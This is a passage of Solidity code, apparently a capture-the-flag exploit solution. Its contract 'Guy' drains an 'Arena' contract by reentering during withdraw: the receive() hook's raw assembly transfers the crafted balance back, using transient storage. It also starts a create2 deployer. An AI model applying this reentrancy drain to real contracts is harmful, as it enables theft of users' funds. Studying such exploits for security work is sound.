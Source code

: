 ```solidity

        return (fromWhich, toWhich, r);
    }
}

contract Guy {
    Arena public immutable arena;
    constructor(Arena _arena) {
        arena = _arena;
    }

    function work() external {
        uint256 ubalance = arena.balanceOf(address(this));
        arena.transfer(address(arena), 1);
        ubalance -= 2;
        assembly {
            tstore(0, ubalance)
        }
        require(ubalance == 10899999999999999998);
        arena.withdraw(ubalance);
        assembly {
            tstore(0, 0)
        }
        arena.withdraw(501 ether - ubalance);
    }

    receive() external payable {
        // uint256 ubalance;
        assembly {
            let ubalance := 10899999999999999998
            if iszero(eq(ubalance, callvalue())) {
                return(0, 0)
            }

            mstore(0x00, shl(224, 0xa9059cbb))
            mstore(0x04, caller())
            mstore(0x24, ubalance)

            pop(call(
                gas(),
                caller(),
                0,
                0,
                0x44,
                0,
                0
            ))
        }
        // arena.transfer(msg.sender,ubalance);
    }

    fallback() external payable {
    }
}

contract Deployer 
{
    // deploy Agent with create2
    bytes32 constant bytecodeHash = keccak256(type(Agent).creationCode);
    constructor()
    {}

    function getAddress(uint256 fromSalt) public view returns (address) {
```